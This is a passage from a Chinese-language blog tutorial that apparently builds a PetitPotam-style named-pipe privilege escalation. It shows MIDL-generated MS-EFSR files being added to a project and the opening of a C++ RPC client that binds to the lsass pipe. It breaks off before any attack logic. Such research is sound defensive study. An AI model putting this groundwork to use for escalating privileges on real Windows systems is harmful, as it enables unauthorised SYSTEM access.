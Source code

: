 此时，MIDL 编译器将创建了以下 3 个文件：

|    文件     |  类型  |              描述               |
| :---------: | :----: | :-----------------------------: |
| ms-efsr_h.h | 头文件 | 接口中过程/函数和结构原型的定义 |
| ms-efsr_c.c | 源文件 |     RPC 客户端运行时的代码      |
| ms-efsr_s.c | 源文件 |    RPC 服务器端运行时的代码     |

这里需要用到的有 ms-efsr_h.h 和 ms-efsr_c.c，我们可以分别在解决方案资源管理器中选择 “头文件” 和 “源文件”，分别右键 “添加” —> “现有项” 将他们添加进来：

![](/assets/posts/2022-05-21-petitpotato-how-do-I-escalate-to-system-via-named-pipe/image-20220520221102578.png)

到这里，我们终于可以编写并运行 RPC 客户端代码了：

```c++
// EfsrRpcClient.cpp
#include "ms-efsr_h.h"
#include <tchar.h>
#include <iostream>
#include <strsafe.h>

#pragma comment(lib, "RpcRT4.lib")

void _tmain(int argc, TCHAR* argv[])
{
    RPC_WSTR ObjUuid = (RPC_WSTR)L"c681d488-d850-11d0-8c52-00c04fd90f7e";    // Pointer to a null-terminated string representation of an object UUID. 
    RPC_WSTR ProtSeq = (RPC_WSTR)L"ncacn_np";                                // Pointer to a null-terminated string representation of a protocol sequence.;
    RPC_WSTR NetworkAddr = (RPC_WSTR)L"\\\\127.0.0.1";                       // Pointer to a null-terminated string representation of a network address.
    RPC_WSTR Endpoint = (RPC_WSTR)L"\\pipe\\lsass";                          // Pointer to a null-terminated string representation of an endpoint.
    RPC_WSTR Options = NULL;                                                 // Pointer to a null-terminated string representation of network options.
    RPC_WSTR StringBinding;                                                  // Returns a pointer to a pointer to a null-terminated string representation of a binding handle.

```